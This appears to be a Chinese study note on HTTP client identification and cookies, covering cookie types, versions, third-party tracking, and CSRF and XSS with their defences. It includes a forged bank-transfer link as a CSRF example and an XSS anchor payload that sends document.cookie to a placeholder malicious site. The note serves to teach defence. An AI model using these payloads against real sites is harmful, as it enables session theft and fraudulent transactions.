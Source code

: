 ```yaml
---
title: Http 权威指南 第十一章 客户端识别与Cookie机制 笔记
date: 2020-06-10 10:02:23
tags:
---
```

##### 不可靠的识别，一般爬虫可能使用: 
Http 首部: From、User-Agent、Referer

##### 客户端IP地址:
1. IP 地址会变化
2. 通过网络地址转换(Network Address Transition NAT)可以隐藏真实的 IP 地址
3. 经过代理或网关转发的新连接，导致服务器只看到代理的IP地址 (有些代理会添加扩展的         Client-IP\X-Forwarded-For 首部)

##### 用户登录
Http 内建机制: 通过 WWW-Authenticate 首部和 Authorization 首部向 Web 站点传送用户相关信息(服务器回送 401 Login Required 状态码)
缺点: 繁琐，体验极差

##### 胖URL

#### cookie
实现持久会话的最好方式
- 分类:
***会话cookie*** : 用户退出浏览器即删除 
***持久cookie*** : 存储在硬盘上
两者唯一的区别就是过期时间，如果设置了 Discard 参数，或者没有设置 Expires 或 Max-Age 参数来说明扩展的过期时间，这个 cookie 就是一个会话 cookie

#### cookie 基本思想:
让浏览器积累一组服务器特有的信息，每次访问服务器时都将这些信息提供给它。
因为浏览器要负责存储 cookie 信息，所以此系统被称为 ***客户端侧状态(client-side state)***
#### cookie 规范正式名称: HTTP 状态管理机制(HTTP state management mechanism)

#### cookie 版本
- 版本0:
  Set-Cookie 首部: 
  Cookie 首部: 将所有与 域、路径和安全过滤器匹配的未过期 cookie 都发送，且所有 cookie 都被组合到一个 Cookie 首部中
- 版本1:
  Set-Cookie2 首部: 多了一些可用属性，比如 Discard(说明为会话cookie)、Max-Age(相对秒数)、Port
  Cookie2 首部: 携带更多的信息

#### cookie 与会话跟踪
第三方网站引导发出的 Cookie，就称为第三方 Cookie。它除了用于 CSRF 攻击，还可以用于用户追踪。

#### cookie 与缓存
私有的内容不可缓存


#### cookie 安全问题
- cookie 相关特性: http 请求会自动携带请求所在域名的 cookie

- CSRF (XSRF) (Cross-site request forgery) 跨站请求伪造
  也被称为 ***one-click attack***
  栗子: 小明刚刚在360浏览器登陆过中国银行网站，登录状态还有效，这时小明在逛一个有趣的论坛，小明在浏览一个有趣的帖子，帖子里有个人回复了留言和一个外链([点我看美女](http://www.chinabank.com/transfer?from=xiaoming&amount=10000&to=heike))，那么小明点击，浏览器就会发出一个携带 www.chinabank.com 域名下的 cookie 的请求，Refer 可能是当前这个论坛的域，所以小明损失一万块
  或者: 一个钓鱼网站有向中国银行转账接口提交的表单，诱发用户点击按钮，就会携带 cookie 提交表单
***防御措施*** :
1. 检查 Referer 字段
  此方法完全依赖客户端浏览器发送正确的值
2. 添加校验 token
  登录后服务器返回一个 token，前端把这个 token 添加到 http 请求的首部，攻击者无从事先得知这个 token 的值
3. SameSite 属性
  Set-Cookie: CookieName=CookieValue; SameSite=Strict;
  Strict: 只有当前网页的 URL 与请求目标一致，才会带上 Cookie
  Lax: (默认) 大多数情况也是不发送第三方 Cookie，但是导航到目标网址的 Get 请求除外 (导航到目标网址的 GET 请求，只包括三种情况：链接，预加载请求，GET 表单)
  None: 值为 None 时，必须同时设置 Secure 属性，表示 cookie 只能通过 HTTPS 发送，Set-Cookie: widget_session=abc123; SameSite=None; Secure
4. 表单嵌入同步令牌（一个随机唯一的 token）


- XSS (Cross-site scripting  XSS) 跨站脚本
  跨站脚本是代码注入的一种
  注入下面这个代码可以获取到 cookie 并发送到 恶意网站
  <a href="#" onclick=`window.location=http://abc.com?cookie=${docuemnt.cookie}`>领取红包</a>
  ***攻击手段和目的*** : 获取 cookie，获取本地存储的用户敏感信息，其他操作
  ***防御措施*** :
  1. 过滤特殊字符
    客户端和服务器端都对输入增加正则校验，没有通过校验则客户端不允许提交，服务器端不允许入库
  2. 数据转义
    前端把需要展示到页面的数据转义，比如直接 replace script 标签，遇到 “<” 或 “>” 添加 “\” 转义处理
  3. 设置 http-only 属性
    cookie 有一个 http-only 属性，表示 cookie 只能被 http 请求携带，不能通过 document.cookie 获取

***cookie 会导致频繁发送 首部体积庞大 的请求***

构建用户跟踪: 将持久 cookie 与 IP 地址、Referer 结合可以构建相当精确的用户档案和浏览模式信息
__第三方 cookie__ : 
通常cookie的域和浏览器地址的域匹配，这被称为第一方cookie。那么第三方cookie就是cookie的域和地址栏中的域不匹配，这种cookie通常被用在第三方广告网站。为了跟踪用户的浏览记录，并且根据收集的用户的浏览习惯，给用户推送相关的广告。 
举个例子，用户正在访问的的正规网站的域名为 A，广告商的域名为 B。那么即使用户浏览器地址栏显示为A，但实际上浏览器做了两次请求，一次给 A 为了显示正常内容，一次给 B 为了显示广告内容。这样的话 A 和 B 实际上都可以通过浏览器使用 cookies。区别在于，A 的 cookie 值只属于A，B 的 cookie 值只属于 B。下次用户在进入网站 C 里面如果还有 B 的<iframe> 广告，那么 B 就可以通过之前在 A 网站上做的记录，给用户精准投放广告。至于 B是怎么知道用户在A上看过什么，那就是 A 和 B 之间的事了。亦或者 B 本身就是一个比较流行的网站，例如百度或者淘宝，它自己就可以记录用户习惯，然后再投到它的其他广告里。这就是为什么你在淘宝进行了搜索，然后再新浪微博页面上居然能看到该搜索有关的广告。这就是因为新浪微博的页面上有一个 <iframe> 显示了淘宝的广告。

